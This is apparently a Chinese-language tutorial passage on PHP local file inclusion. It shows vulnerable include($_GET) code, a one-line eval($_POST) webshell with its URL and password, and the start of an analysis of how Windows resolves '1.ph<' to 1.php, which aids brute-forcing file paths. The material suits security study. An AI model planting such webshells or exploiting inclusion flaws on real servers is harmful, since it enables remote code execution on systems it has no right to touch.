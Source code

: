 ```php
<?php
	if(isset($_GET[page])) {
		include('./action/'. $_GET[page] . '.php');
	}else{
		include './action/show.php';
	}
?>
```
# 相关代码：
1. php中代码：
```php
<?php
	include($_GET['file']);
?>
```
2. 123456.txt中代码：
```php
<?php phpinfo() ?>
```
3. 123456.TXT里面可以换成一句话木马，代码：
```php
<?php eval($_POST["admin"]) ?>
```
url:http://127.0.0.1/1.php?file=12<<
密码：admin
**注意**：txt里面书写php代码不能换行写，最好是在同一行书写【原因待查明】

![acccc1eb9b5be30878b4f979f2edadfc.jpg.png](https://ooo.0o0.ooo/2017/03/04/58ba6bd6354d3.png)

# windows的文件系统机制引发的PHP路径爆破问题分析

## 开场白

此次所披露的是以下网页中提出的问题所取得的测试结果：

[http://code.google.com/p/pasc2at/wiki/SimplifiedChinese](http://code.google.com/p/pasc2at/wiki/SimplifiedChinese)
```php
<?php
	for ($i=0; $i<255; $i++) {
		$url = '1.ph' . chr($i);
		$tmp = @file_get_contents($url);
		if (!empty($tmp)) echo chr($i) . " ";
	}
?>
```
已知1.php存在，以上脚本访问的结果是：
```
1.php
1.phP
1.ph<
1.ph>
```
都能得到返回。
前两种能返回结果是总所周知的（因为windows的文件系统支持大小的互转的机制），另外的两种返回引起了我们的注意。
